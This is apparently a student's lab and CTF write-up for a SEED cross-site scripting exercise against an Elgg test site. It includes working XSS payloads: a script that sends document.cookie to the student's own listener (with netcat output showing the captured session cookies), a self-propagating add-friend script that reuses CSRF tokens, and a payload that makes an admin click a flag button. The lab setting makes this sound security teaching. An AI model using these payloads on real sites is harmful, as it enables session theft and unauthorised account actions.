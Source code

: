 # Weeks 9 and 10 assignment

## HTTP Header Live

Before the start of the lab, we got familiar with the *HTTP Header Live Tool*.
Because we were already familiar with the Firefox's Web dev tools, it was easy to get a grasp of the add-on.

<p align="center">
    <img src="screenshots/log10_1.png">
</p>

## Task 1

For the first task, we logged in as Alice and changed the brief description field to the following:

```html
<script>alert('XSS')</script>
```

This made an alert message prompt every time Alice's profile was loaded:

<p align="center">
    <img src="screenshots/log10_2.png">
</p>

## Task 2

This task was similar to the first. However, the session cookies was printed out instead of a `'XSS'` string.

<p align="center">
    <img src="screenshots/log10_3.png">
</p>

## Task 3

For this task, we wanted to actually get the cookies ourselves, instead of just displaying them to the user.
For that, we want the browser to send an HTTP request to our machine. 
This was done by inserting an image tag with source set to our server. 
This way, when a user loads the compromised profile, it's browser will try to load the image from our server and append the cookie in that request.

```html
<script>document.write('<img src=http://10.9.0.1:5555?c='+ escape(document.cookie) + '   >');</script>
```

```bash
[11/23/22]seed@VM:~/.../LabsetupXSS$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.4 36002
GET /?c=PHPSESSID%3Dosdptu4bq9idv8jv9rnion5ebf%3B%20Elgg%3Decscjgted05cms63euvl4djb7t HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
``` 

## Task 4

The goal of this task was to make any user that visited Samy's page unknowingly add him as a friend.

Firstly, we added Samy as a friend, to see what this request would look like:

```http
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1669204254&__elgg_token=6njpngZIHn_-c7JYPSPcbA&__elgg_ts=1669204254&__elgg_token=6njpngZIHn_-c7JYPSPcbA

Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: PHPSESSID=osdptu4bq9idv8jv9rnion5ebf; Elgg=ecscjgted05cms63euvl4djb7t

GET: HTTP/1.1 200 OK

Date: Wed, 23 Nov 2022 11:51:01 GMT
Server: Apache/2.4.41 (Ubuntu)
Cache-Control: must-revalidate, no-cache, no-store, private
expires: Thu, 19 Nov 1981 08:52:00 GMT
pragma: no-cache
x-content-type-options: nosniff
Vary: User-Agent
Content-Length: 386
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json; charset=UTF-8
```

From that we could identify the required query parameters to perform such a request: a profile id (59 for Samy's case) and a couple of security tokens.

From that, we could build our request:

```js
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var sendurl=`http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=${ts}&__elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

This code was saved to the About me section on Samy's profile.
Then, when Alice loaded his profile, our exploit sent a request and successfully added Samy as Alice's friend.

### Questions

1. Elgg requires a couple tokens on requests to prevent CSRF attacks. `$__elgg_ts` indicated the current timestamp and `$__elgg_token` is an action token generated when the page is loaded. Variables `ts` and `token` fetch this data so the request can be validated by the Elgg server.

2. If we try to write code into the About me Visual editor, our text will be enconded to HTML. For example, '<' will become `<p>&lt;</p>`. Because of that, we cannot load js code in a way it could be executed.


### Week 10 CTF

## First Challenge

If we provide an arbitrary string for a justification, the admin will not give access to the flag.
We noticed that the text input was vulnerable to XSS by passing `<script>alert('hey')</script>`. This prompted an alert message.

The way the admin would ever give access to the flag was by pressing the Give Flag button. 
Thus, we decided to click the button ourselves using XSS:

```html
<script>document.getElementById('giveflag').click();</script>
```

When this "justification" was loaded into the admin page it would click the give flag button which in turn gave us the flag.

